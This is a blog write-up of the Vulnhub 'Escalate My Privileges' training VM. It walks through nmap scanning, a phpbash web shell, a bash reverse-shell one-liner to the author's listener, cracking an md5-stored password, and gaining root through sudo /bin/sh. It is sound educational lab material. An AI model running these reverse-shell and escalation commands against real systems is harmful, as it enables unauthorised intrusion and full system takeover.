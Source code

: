 ```yaml
---
published: true
layout: post
category: writeup
title: Escalate My Privileges
author: F3dai
image: https://imgur.com/1H07JlN.png
---
```


This VM is made for playing with privileges. As its name, this box is specially made for learning and sharpening Linux Privilege Escalation skills. There are number of ways to playing with the privileges. Goal: First get the User of the Target then Start Playing with Privileges.

**URL:** [Escalate Privs Vulnhub](https://www.vulnhub.com/entry/escalate-my-privileges-1,448/)

**Difficulty:** Easy / Beginner Level

**Author:** Akanksha Sachin Verma

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![netdiscover](https://imgur.com/ZXbe7TE.png)

The IP 192.168.56.113 has been found so we will do a port scan with the following IP:

<pre>nmap -p- -i "nmap" -sS 192.168.56.113</pre>

Nmap will scan every port with -p-, save to file -o and TCP SYN scan -sS.

![nmap](https://imgur.com/9oFhuw8.png)

Port 22, 80 and 111 is open. I will be focusing on port 80 for my enumeration however it's worth looking at port 111 to see if there are any mountable file systems. I won't go down this route but [this](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) website has a section on it. 

Opening up port 80 in a browser, we get this:

![p80](https://imgur.com/76wn0qP.png)

The nmap scan identified a robots.txt file which is worth checking out. Go to 192.168.56.113/robots.txt and there is an entry with the following:

<pre> - User-agent: *
Disallow: /phpbash.php</pre>

This means they do not want that page to be shown in google so we'll check it out anyway.

Going to 192.168.56.113/phpbash.php gives us the following page:

![phpbash](https://imgur.com/nQxbms3.png)

We already have a lower priv shell with the ID "apache". We are currently in the www/html directory where the web files are kept. 

### Upgrade Shell

Upgrading to a reverse shell will be easier to work with. I use [this website](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to decide how I will get a reverse shell. Simply use the bash 'one-liner' and listen to a chosen port. 

<pre>bash -i >& /dev/tcp/192.168.56.101/4545 0>&1 </pre>

![rev_shell](https://i.imgur.com/QYgCcDI.png)

In this case, the reverse shell will be aimed at my local IP 192.168.56.101 on port 4545. Therefore set up a netcat listener on this port.

Make sure the netcat is set up before the command is executed. 

<pre>nc -nvlp 4545</pre>

Then execute the reverse shell and a connection should be established with user "apache".

![netcat](https://i.imgur.com/AFYGLzO.png)

### Privilege Escalation

After some enumeration, some files are found in the home directory of "armour". The contents of Credentials.txt reveal a password with md5(). Md5 is an algorithm that is widely used for hash functions producing a 128-bit hash value.

The md5 value has been shown by echo.

<pre>cd /home/armour
ls -la
cat Credentials.txt
echo -n "rootroot1" | md5sum </pre>

![md5](https://imgur.com/BJ1q5M4.png)

Let's try and use this password for the user "armour" by changing the user with the following command:

<pre>su armour</pre>

![armour](https://imgur.com/iJDJnlr.png)

The password is correct, we now have a new shell with ID armour. Make sure to upgrade the shell.

<pre>id
python3 -c 'import pty;pty.spawn("/bin/bash")'</pre>

First thing to do is to check the sudo privileges:

<pre>sudo -l</pre>

![sudo-l](https://imgur.com/qfvwZll.png)

There is a huge amount of options to explore however just by exploiting the first entry /bin/sh should give sudo privileges.

<pre>sudo /bin/sh</pre>

![root](https://imgur.com/aETTEPy.png)

And there is the flag in /root.
